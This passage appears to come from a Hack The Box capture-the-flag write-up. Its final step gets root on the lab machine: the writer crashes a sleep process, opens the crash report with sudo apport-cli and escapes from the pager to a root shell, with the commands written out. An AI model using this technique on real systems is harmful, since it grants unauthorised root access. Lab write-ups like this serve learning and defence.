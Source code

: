 ### Exploitation

Let's first create a crash file and the give it's path and select **v** to make our exploit work. 

```bash
$ sleep 60 &
$ kill -SIGSEGV  2717
$ sudo apport-cli -c /var/crash/_usr_bin_sleep.1000.crash
```

![Pasted image 20240427223243](https://github.com/iammR0OT/HTB/assets/74102381/4ce99202-f7af-47ed-b44a-0eff5270293c)

After when you see the screen like below image press **!** and then enter. You will get a shell as a root on the box.

![Pasted image 20240427223521](https://github.com/iammR0OT/HTB/assets/74102381/02c7d6ec-b858-47fc-8dc8-d83f579b2c42)

![Pasted image 20240427223547](https://github.com/iammR0OT/HTB/assets/74102381/a556f091-db9b-4638-b615-a96b4f06077c)

# Happy Hacking ❤
